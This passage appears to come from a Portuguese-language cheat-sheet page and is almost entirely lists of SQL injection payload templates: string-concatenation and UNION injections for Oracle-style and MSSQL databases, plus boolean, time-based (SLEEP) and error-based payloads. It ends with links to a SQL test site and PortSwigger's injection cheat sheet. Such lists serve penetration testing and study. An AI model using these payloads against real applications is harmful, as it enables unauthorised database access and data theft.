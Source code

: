```
'||{payload}||'--
"||{payload}||"--
'||(SELECT {payload} FROM dual)--
```
#### MSSQL
```
' UNION ALL SELECT {payload}--
' UNION SELECT {payload}--
' OR (SELECT {payload}) IS NOT NULL--
' OR (SELECT {payload}) IS NULL--
'+{payload}+
"+{payload}+
'+'+(SELECT {payload})+
"+"+(SELECT {payload})+
```
#### Outros payloads
```
OR {payload}=1
AND {payload}=1
AND IF({payload}, SLEEP(5), 1)
AND CASE WHEN {payload} THEN sleep(5) ELSE NULL END
AND {payload}
AND NOT {payload}
AND (SELECT 1 FROM(SELECT COUNT(*),CONCAT('Error:',{payload},0x3a,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
```

#### :orange_book: Site para testar códigos SQL: https://www.db-fiddle.com/
#### :orange_book: Portswigger Cheatsheet para SQL Injection: https://portswigger.net/web-security/sql-injection/cheat-sheet


